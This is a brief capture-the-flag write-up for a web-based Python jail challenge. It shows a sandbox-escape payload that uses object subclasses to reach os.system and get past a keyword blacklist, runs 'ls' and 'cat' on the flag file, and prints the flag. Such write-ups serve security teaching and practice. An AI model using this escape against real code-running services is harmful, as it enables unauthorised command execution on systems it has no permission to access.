

# outdated
> I found this old website that runs your python code, but the security hasn't been updated in years

> I'm sure there's a flag floating around, can you find it?

## About the Challenge
We have been given a website and a source code. (You can download the source code [here](server.zip))


So, this website can run our python code but there are some blacklisted keywords, for example: `__import__` or `__builtins__` and other restriction like we need to input ASCII character and we cant upload a very large file, etc.

## How to Solve?
This is like PyJail challs but in web version, so to solve this. Im using one of the PyJail payload:

```python
print(dict.__class__.__base__.__subclasses__()[132].__init__.__globals__["sys"].modules["os"].system("ls"))
```

And the result was



And then change the `ls` command to `cat flag-0f8794c6-9e3b-4458-8ee6-eeb6b3a34a68.txt` to obtain the flag


```
tjctf{oops_bad_filter_3b582f74}
```